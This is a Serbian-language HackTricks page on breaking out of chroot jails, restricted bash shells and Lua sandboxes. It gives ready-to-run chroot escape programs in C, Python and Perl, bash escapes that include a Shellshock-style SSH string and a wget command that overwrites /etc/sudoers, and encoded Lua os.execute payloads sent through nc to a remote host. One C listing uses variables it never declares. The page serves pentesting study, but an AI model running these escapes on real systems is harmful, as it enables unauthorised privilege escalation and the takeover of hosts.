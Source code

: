 # Bekstvo iz zatvora

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Obuka AWS Crveni Tim Stručnjak (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Obuka GCP Crveni Tim Stručnjak (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## **GTFOBins**

**Pretražite** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **da biste videli da li možete izvršiti bilo koji binarni fajl sa "Shell" svojstvom**

## Bekstva iz Chroot-a

Sa [vikija](https://en.wikipedia.org/wiki/Chroot#Limitations): Mehanizam chroot-a **nije namenjen** zaštiti od namernog menjanja od strane **privilegovanih** (**root**) **korisnika**. Na većini sistema, chroot konteksti se ne stapaju pravilno i programi u chroot-u **sa dovoljnim privilegijama mogu izvršiti drugi chroot da bi izašli**.\
Obično to znači da da biste pobegli morate biti root unutar chroot-a.

{% hint style="success" %}
**Alat** [**chw00t**](https://github.com/earthquake/chw00t) je napravljen da zloupotrebi sledeće scenarije i pobegne iz `chroot`-a.
{% endhint %}

### Root + Trenutni radni direktorijum

{% hint style="warning" %}
Ako ste **root** unutar chroot-a, možete pobeci kreiranjem **još jednog chroot-a**. To je zato što 2 chroot-a ne mogu koegzistirati (u Linuxu), pa ako kreirate folder i zatim **napravite novi chroot** u tom novom folderu dok ste **vi van njega**, sada ćete biti **van novog chroot-a** i stoga ćete biti u FS-u.

Ovo se dešava jer chroot OBICNO NE menja vaš trenutni radni direktorijum na naznačeni, tako da možete kreirati chroot ali biti van njega.
{% endhint %}

Obično nećete naći binarni fajl `chroot` unutar chroot zatvora, ali **možete kompajlirati, otpremiti i izvršiti** binarni fajl:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
### Root + Sačuvani fd

{% hint style="warning" %}
Ovo je slično prethodnom slučaju, ali u ovom slučaju **napadač čuva file deskriptor trenutnog direktorijuma** i zatim **kreira chroot u novom folderu**. Konačno, pošto ima **pristup** tom **FD** **izvan** chroot-a, pristupa mu i **izlazi**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD može biti prosleđen preko Unix Domain Sockets, tako da:

* Napravite dete proces (fork)
* Napravite UDS tako da roditelj i dete mogu da komuniciraju
* Pokrenite chroot u dečjem procesu u drugom folderu
* U roditeljskom procesu, napravite FD foldera koji je van novog chroot-a dečjeg procesa
* Prosledite tom FD-u detetu koristeći UDS
* Dete proces promeni direktorijum na taj FD, i zbog toga što je van svog chroot-a, izbjeći će zatvor
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Montiranje root uređaja (/) u direktorijum unutar chroot-a
* Chrootovanje u taj direktorijum

Ovo je moguće u Linux-u
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Montirajte procfs u direktorijum unutar chroot-a (ako već nije)
* Potražite pid koji ima drugačiji root/cwd unos, kao što je: /proc/1/root
* Chrootujte se u taj unos
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Napravite Fork (dete proces) i chrootujte se u drugi folder dublje u FS i promenite direktorijum na njega
* Iz roditeljskog procesa, premestite folder gde je dečji proces u folder prethodno chroot-ovan od strane dece
* Ovaj dečji proces će se naći van chroot-a
{% endhint %}

### ptrace

{% hint style="warning" %}
* Ranije korisnici su mogli da debaguju svoje procese iz procesa samog sebe... ali ovo više nije moguće podrazumevano
* U svakom slučaju, ako je moguće, možete ptrace-ovati proces i izvršiti shellcode unutar njega ([vidi ovaj primer](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Zatvori

### Enumeracija

Dobijanje informacija o zatvoru:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Izmena PATH

Proverite da li možete da izmenite PATH env promenljivu
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Korišćenje vim-a
```bash
:set shell=/bin/sh
:shell
```
### Napravite skriptu

Proverite da li možete napraviti izvršnu datoteku sa _/bin/bash_ kao sadržajem
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Dobijanje bash-a putem SSH-a

Ako pristupate putem SSH-a, možete koristiti ovaj trik da biste izvršili bash shell:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Deklaracija
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Možete prepisati na primer sudoers fajl
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Ostale trikove

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**Takođe može biti interesantna stranica:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Zatvori

Trikovi o bekstvu iz python zatvora na sledećoj stranici:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Zatvori

Na ovoj stranici možete pronaći globalne funkcije do kojih imate pristup unutar lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval sa izvršenjem komande:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Neki trikovi za **pozivanje funkcija biblioteke bez korišćenja tačaka**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Nabrajanje funkcija biblioteke:
```bash
for k,v in pairs(string) do print(k,v) end
```
Napomena da svaki put kada izvršite prethodni jednolinijski niz u **različitom lua okruženju redosled funkcija se menja**. Stoga, ako treba da izvršite određenu funkciju, možete izvršiti napad grubom silom učitavanjem različitih lua okruženja i pozivanjem prve funkcije biblioteke.
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Dobijanje interaktivne lua ljuske**: Ako se nalazite unutar ograničene lua ljuske, možete dobiti novu lua ljusku (i nadamo se neograničenu) pozivom:
```bash
debug.debug()
```
## Reference

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Slajdovi: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Obuka AWS Crveni Tim Stručnjak (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Obuka GCP Crveni Tim Stručnjak (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
